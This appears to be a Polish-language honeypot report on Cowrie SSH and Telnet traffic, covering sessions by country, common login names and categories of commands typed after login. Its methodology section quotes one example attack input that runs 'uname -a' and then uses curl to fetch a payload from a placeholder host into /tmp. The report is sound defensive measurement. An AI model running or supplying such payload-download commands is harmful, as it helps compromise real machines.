





# Cowrie: ruch SSH i Telnetu oraz działania w sesjach

Wyniki obserwacji z własnego laboratorium honeypotów. Raport pokazuje skalę ruchu,
jego rozkład geograficzny, próby logowania i polecenia wpisywane w emulatorze.

**Okres:** 16 października - 5 listopada 2026, do **13:16:40 UTC**
(14:16:40 CET). Ostatni dzień jest niepełny. Dokładna granica końcowa, wyłączna,
to `2026-11-05T13:16:40.420058+00:00`.

[PDF z pięcioma planszami](cowrie-wyniki.pdf) · [Dane zbiorcze](data/summary.json) ·
[Metoda liczenia](#metoda-i-ograniczenia)

Raport opisuje wdrożenie operatora. Publiczny kod repozytorium i prywatnie wdrożone
rozszerzenia mają różny zakres; ten materiał publikuje wyniki, agregaty i użyty
klasyfikator poleceń, bez aktualizacji usług produkcyjnych.

## 1. Skąd pochodził ruch?



Zarejestrowano ruch z **103 krajów i obszarów**, z **1667 unikalnych publicznych IP**.
Największe udziały sesji:

| Kraj infrastruktury | Sesje | Udział we wszystkich sesjach |
| --- | ---: | ---: |
| Pakistan | 287 362 | 47,7% |
| Chiny | 210 121 | 34,9% |
| Indie | 43 498 | 7,2% |
| Nigeria | 24 586 | 4,1% |
| Bułgaria | 16 152 | 2,7% |

Mapa i tabela uwzględniają powtarzające się połączenia. Kraj źródłowego adresu
opisuje lokalizację infrastruktury, nie narodowość ani miejsce pobytu operatora.
Dlatego duży udział jednego kraju nie oznacza proporcjonalnej liczby osób lub kampanii.

[Wszystkie kraje - CSV](data/countries.csv)

## 2. Ile danych zebrano?



| Miara | Wynik |
| --- | ---: |
| Sesje Cowrie | 602 904 |
| Unikalne publiczne adresy źródłowe | 1 667 |
| Zapisy poleceń | 9 784 030 |
| Sesje zawierające polecenia | 189 566 |
| Próby logowania | 600 678 |

**31,4% sesji zawierało polecenia.** Jeden zapis wejścia powłoki może zawierać
kilka poleceń. Liczba rekordów nie jest więc liczbą unikalnych działań, plików ani infekcji.

## 3. Jak zmieniał się ruch?



Telnet uruchomiono **26 października około 20:47 UTC**. Po rozszerzeniu obserwacji
rejestrowano znacznie więcej sesji. Usługi miały różny czas ekspozycji i przerwy,
więc sumy nie służą do porównywania ich podatności.

Zacienienie opisuje przerwy w odbiorze, nieustaloną dostępność albo niepełny ostatni
dzień. Spadku liczby zapisanych sesji nie utożsamiamy ze spadkiem prób w Internecie.

[Wartości dzienne - CSV](data/daily-traffic.csv) ·
[Udokumentowane przedziały dostępności](data/operational-intervals.json)

## 4. Jakie loginy podawano?



Najczęściej występowały `root` (**227 325 prób**) oraz `admin` (**151 572 próby**).
Próby logowania są liczone osobno od sesji: klient może podjąć więcej niż jedną
próbę w ramach jednego połączenia.

Hasła w dostępnych rekordach użytych do raportu były zamaskowane. Raport nie
odtwarza rankingu haseł ani par login-hasło z tych danych.

[Pięć loginów - CSV](data/login-top5.csv)

## 5. Co robiono po zalogowaniu?



Mianownik to **189 566 sesji z poleceniami**, a nie wszystkie połączenia.
Każda sesja jest liczona najwyżej raz w danej kategorii. Kategorie mogą się nakładać.

| Kategoria poleceń | Sesje dopasowane przez reguły | Udział w sesjach z poleceniami |
| --- | ---: | ---: |
| Próby dostarczania plików | 187 403 | 98,9% |
| Rozpoznawanie systemu i sprzętu | 183 890 | 97,0% |
| Uprawnienia i próby uruchomienia | 177 940 | 93,9% |
| Próby zapisu w katalogach | 177 843 | 93,8% |
| Trwały dostęp i usuwanie śladów | 6 093 | 3,2% |

Przykładowo zapis `uname`, pobranie pliku i `chmod` w jednej sesji może spełniać
trzy reguły. Wysokie udziały obejmują również powtórzenia podobnych sekwencji botów.
Są to dopasowania reguł do treści poleceń; nie potwierdzają skutecznego pobrania,
wykonania pliku ani infekcji. Schemat obok wykresu jest ilustracją kolejności działań,
nie odtworzeniem jednej konkretnej sesji.

[Wyniki kategorii - CSV](data/session-actions.csv) ·
[Klasyfikator](analysis/session_actions.py) · [Testy reguł](analysis/test_session_actions.py)

## Metoda i ograniczenia

<details>
<summary>Rozwiń opis liczenia, archiwów i jakości danych</summary>

- Sesje liczymy według ich początku w zadanym oknie UTC. Zdarzenia logowania
  według czasu zdarzenia. Polecenia w sesjach przekraczających granicę są ograniczane
  czasem zdarzenia.
- Historia obejmuje bieżące rekordy, `session_rollups` i bezstratne archiwa.
  Dla powtórzeń zachowano liczbę oryginalnych sesji. Sam odczyt tabeli `events`
  nie wystarcza do odtworzenia historycznych statystyk poleceń.
- Wzorce archiwizacji `repeat-v1` uwzględniają pełną sekwencję poleceń, źródło
  i port. Przedstawiciela klasyfikujemy raz, a wynik ważymy liczbą oryginalnych
  sesji. Podczas audytu odkodowano i niezależnie porównano dziesięć archiwów.
- Zdarzenia `login_attempt` pozostają w bieżącej tabeli po archiwizacji.
  Audyt potwierdził zero usuniętych rekordów tego typu; nie dodawano ich ponownie.
- Wykluczono rozpoznane testy operatora i źródła niepubliczne. Nierozpoznane testy
  mogą pozostać w zbiorze.
- Klasyfikator przetwarza tekst bez jego wykonywania. Reguły są heurystyczne;
  nie stanowią pełnej analizy składni powłoki ani analizy zachowania malware.
- **Znane ograniczenie tej wersji:** gdy wcześniejszy fragment tego samego zapisu
  został uznany za rozpoznanie, reguła może pominąć późniejsze pobranie przez `curl`.
  Na przykład `uname -a; curl https://example.invalid/payload -o /tmp/payload`
  zostanie przypisane tylko do rozpoznania. Może to zaniżać kategorię dostarczania
  plików; wpływu na całe zestawienie nie zmierzono. Zachowano historyczny klasyfikator
  zgodny z audytem i jego liczbami, zamiast podmieniać reguły bez ponownego przeliczenia.
- Mapa korzysta z lokalnej bazy GeoIP IPv4 z 25.08.2026. Granice mapy pochodzą
  z [Natural Earth](https://www.naturalearthdata.com/), w domenie publicznej.
  Bazy geolokalizacyjnej nie dołączono do repozytorium.
- Ten raport dotyczy Cowrie. Nie zawiera wyników innych sensorów ani analizy Chernobyla.
  Nie wnioskujemy o wspólnym sprawcy lub nowej kampanii wyłącznie na podstawie
  nazwy pliku, adresu źródłowego lub podobnej komendy.

</details>

## Co można sprawdzić samodzielnie?

Pliki CSV i JSON zawierają agregaty do ponownego przeliczenia udziałów, sum
dziennego ruchu i rankingów. Suma sesji z `countries.csv` i suma SSH + Telnet
z `daily-traffic.csv` wynoszą po **602 904**. Nie publikujemy surowego zbioru sesji,
więc z samych agregatów nie da się niezależnie odtworzyć pierwotnej klasyfikacji.

Testy dołączonej wersji klasyfikatora, z katalogu głównego repozytorium:

```sh
python -m unittest discover -s docs/reports/cowrie-2026-11/analysis -p 'test_session_actions.py'
```

Raport i grafiki przygotowano z pomocą narzędzi AI. Liczby są powiązane z zachowanym
snapshotem danych; sumy kontrolne opublikowanych plików znajdują się w
[manifeście](data/manifest.json). Pakiet zawiera agregaty, opracowane wykresy i reguły
analizy, bez surowych logów i plików malware.
